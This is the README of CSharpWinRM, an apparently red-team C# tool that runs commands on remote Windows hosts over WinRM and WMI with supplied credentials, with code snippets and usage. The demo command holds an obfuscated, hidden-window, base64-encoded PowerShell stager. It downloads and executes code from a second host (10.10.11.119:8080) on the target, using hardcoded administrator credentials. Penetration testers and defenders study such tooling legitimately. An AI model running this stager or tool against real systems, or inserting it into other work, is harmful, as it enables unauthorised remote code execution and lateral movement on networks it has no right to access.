

# CSharpWinRM

`CsharpWinRM` is a .NET 4.0 implementation of WinRM using the [WinRM C++ API](https://docs.microsoft.com/en-us/windows/win32/winrm/winrm-c---api). This project takes in credentials and a command, then executes it on the remote host using `Win32_Process`.

## Explanation

After looking into how the `Win32_Process` method in WMI is used to execute remote commands, I threw this together:

```csharp
public static void Main()
{
    String command = "powershell.exe -nop -w hidden -e <snip>";
    String Target = "10.10.11.115";

    ConnectionOptions options = new ConnectionOptions();
    options.Username = "water.tribe\\Administrator";
    options.Password = "Password123!";

    String Scope = String.Format("\\\\{0}\\root\\cimv2", Target);

    Console.WriteLine("Scope:" + Scope);

    ManagementScope managementScope = new ManagementScope(Scope,options);

    managementScope.Connect();
    ManagementClass managementClass = new ManagementClass(managementScope, new ManagementPath("Win32_Process"),new ObjectGetOptions());
    object[] process = { command };
    object result = managementClass.InvokeMethod("Create", process);
    Console.WriteLine(result);
}
```

Which is cool. So, I moved onto looking at how `WinRM` can be used in C#. Browsing through StackOverflow, people were typically [doing this with PowerShell Runspaces](https://stackoverflow.com/questions/27197402/running-a-command-on-a-remote-windows-using-winrm-in-c-sharp). Except for [one mad-lad](https://stackoverflow.com/a/4158374) who was using the WinAPI. I then rabbit-holed for an evening on this, which produces this project.

The DLL in use here is the [wsmauto.dll](https://dll.website/wsmauto-dll). Referencing this DLL allows access to a bunch of [WSMan methods](https://docs.microsoft.com/en-us/windows/win32/winrm/wsman). 

All the heavy lifting is done by the [IWSManSession](https://docs.microsoft.com/en-us/windows/win32/api/wsmandisp/nn-wsmandisp-iwsmansession) interface, this gave access to two important methods:

- [IWSManSession::Identify](https://docs.microsoft.com/en-us/windows/win32/api/wsmandisp/nf-wsmandisp-iwsmansession-invoke)
- [IWSManSession::Invoke](https://docs.microsoft.com/en-us/windows/win32/api/wsmandisp/nf-wsmandisp-iwsmansession-invoke)

The `Identify()` method is used to determine if the remote host is going to allow access, its used like so:

```csharp
xmlIdentifyResponse.LoadXml(wsmanSession.Identify());
```

Where `xmlIdentifyResponse` is just an `XmlDocument`. If its possible, an XML response is returned:

```xml
<wsmid:IdentifyResponse xmlns:wsmid="http://schemas.dmtf.org/wbem/wsman/identity/1/wsmanidentity.xsd" xml:lang="">
    <wsmid:ProtocolVersion>http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd</wsmid:ProtocolVersion>
    <wsmid:ProductVendor>Microsoft Corporation</wsmid:ProductVendor>
    <wsmid:ProductVersion>OS: 6.3.9600 SP: 0.0 Stack: 3.0</wsmid:ProductVersion>
    <wsmid:SecurityProfiles>
        <wsmid:SecurityProfileName>http://schemas.dmtf.org/wbem/wsman/1/wsman/secprofile/http/spnego-kerberos</wsmid:SecurityProfileName>
    </wsmid:SecurityProfiles>
</wsmid:IdentifyResponse>
```

With that, most of the mind-melting was done by trying to determine the `actionUri`, and the `resourceUri` as seen in the `IWSManSession::Invoke` [documentation](https://docs.microsoft.com/en-us/windows/win32/api/wsmandisp/nf-wsmandisp-iwsmansession-invoke). Until starting this project, I did not know that WinRM uses WMI under-the-hood, so I was soon able to link up `WIn32_Process` to create the process as seen in the WMI example at the start.

The following PowerShell command sheds some light on the resourceUri:

```powershell
winrm help uris
```

This became:

```csharp
string resourceURI = "http://schemas.microsoft.com/wbem/wsman/1/wmi/root/cimv2/Win32_Process";
```

Finally, the actual payload. Originally, I was building the XML in one big `String.Format`, this would not respect anything after a space. So I could only run `cmd.exe` or something. But, [thanks to this chap](https://social.microsoft.com/Forums/en-US/d6ec5087-33dc-4967-8183-f8524683a3ea/using-remote-powershellwinrm-within-caspnet), I was able to get around that with a `StringBuilder`:

```csharp
StringBuilder parameters = new StringBuilder();
parameters.Append("<p:Create_INPUT ");
parameters.Append("xmlns:p=\"http://schemas.microsoft.com/wbem/wsman/1/wmi/root/cimv2/Win32_Process\">");
parameters.Append("<p:CommandLine>" + Command + "</p:CommandLine>");
parameters.Append("</p:Create_INPUT>");
```

This is all then put together, and invoked:

```csharp
String responseFromInvoke = wsmanSession.Invoke("Create", resourceURI, parameters.ToString(), 0);
```

`Create` being the `Win32_Process` [method](https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/create-method-in-class-win32-process).

## Demo

I'll preface this with:

> It works for me.

Example command:

```
.\CSharpWinRM.exe 10.10.11.115 water.tribe administrator Password123! "powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJABOAD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAOwBpAGYAKABbAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBQAHIAbwB4AHkAXQA6ADoARwBlAHQARABlAGYAYQB1AGwAdABQAHIAbwB4AHkAKAApAC4AYQBkAGQAcgBlAHMAcwAgAC0AbgBlACAAJABuAHUAbABsACkAewAkAE4ALgBwAHIAbwB4AHkAPQBbAE4AZQB0AC4AVwBlAGIAUgBlAHEAdQBlAHMAdABdADoAOgBHAGUAdABTAHkAcwB0AGUAbQBXAGUAYgBQAHIAbwB4AHkAKAApADsAJABOAC4AUAByAG8AeAB5AC4AQwByAGUAZABlAG4AdABpAGEAbABzAD0AWwBOAGUAdAAuAEMAcgBlAGQAZQBuAHQAaQBhAGwAQwBhAGMAaABlAF0AOgA6AEQAZQBmAGEAdQBsAHQAQwByAGUAZABlAG4AdABpAGEAbABzADsAfQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAxAC4AMQAxADkAOgA4ADAAOAAwAC8ANgBUADAARwByADcASABvAHoAaQAvADgAMgBkAHIAWgBoADcATAA1AEsAYQAnACkAKQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAxAC4AMQAxADkAOgA4ADAAOAAwAC8ANgBUADAARwByADcASABvAHoAaQAnACkAKQA7AA=="
```

On execution, if successful, it should look something like this:



If the `ReturnValue` is 0, then all is well. It will also give the `ProcessId`:

```
Windows PowerShell
Copyright (C) 2013 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> Get-Process -Pid 2604

Handles  NPM(K)    PM(K)      WS(K) VM(M)   CPU(s)     Id ProcessName
-------  ------    -----      ----- -----   ------     -- -----------
    399      31    63892      66152   600     0.56   2604 powershell


PS C:\Users\Administrator>
```

The error codes can be seen [here](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-return-codes).

## Usage

```
[*] Usage: .\CSharpWinRM.exe <Target> [Domain] [Username] [Password] <Command>
[*] Example 1: .\CSharpWinRM.exe 192.168.0.1 DomainName Administrator Password123! "powershell.exe -e blah"
[*] Example 2: .\CSharpWinRM.exe 192.168.0.1 "powershell.exe -e blah"
```

Once built, merge with:

```powershell
.\ILMerge.exe /out:.\CSharpWinRM_merged.exe .\CSharpWinRM.exe .\Interop.WSManAutomation.dll
```


